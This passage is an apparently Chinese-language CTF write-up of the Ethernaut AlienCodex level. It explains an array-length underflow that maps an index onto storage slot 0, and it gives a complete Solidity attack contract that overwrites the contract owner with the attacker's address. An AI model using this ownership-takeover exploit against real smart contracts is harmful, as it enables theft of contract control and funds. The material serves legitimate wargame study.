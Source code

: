 假设codex[0] 位于 slot p，则上表最下方的codex[2²⁵⁶ — p] 将因overflow 而位于slot 0，它(2²⁵⁶ — p) 就是我们要计算出的index。codex[0] 会储存在keccak256(codex.length 所在slot)，故 p 值等于keccak256(1)，将p 值带入codex[2²⁵⁶ — p] 后可得：index = 2^256 - keccak256(1)，index 答案就出来啦！有了正确的index，再把msg.sender 的地址写入即可取得合约所有权。

## 解答

实现攻击合约:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    AlienCodex instance;

    constructor(address fb) {
        instance = AlienCodex(fb);
    }

    function attack() public {
        instance.makeContact();
        instance.retract();

        unchecked {
            uint index = uint256(2) ** uint256(256) -
                uint256(keccak256(abi.encode(uint256(1))));
            instance.revise(index, bytes32(uint256(uint160(msg.sender))));
        }
    }
}

```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  AlienCodexTest  -vvvvv
```

## 要点

- 注意溢出，不过现在0.8.0有自动溢位检查!

## 参考

- Array Members: https://docs.soliditylang.org/en/latest/types.html#array-members

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>

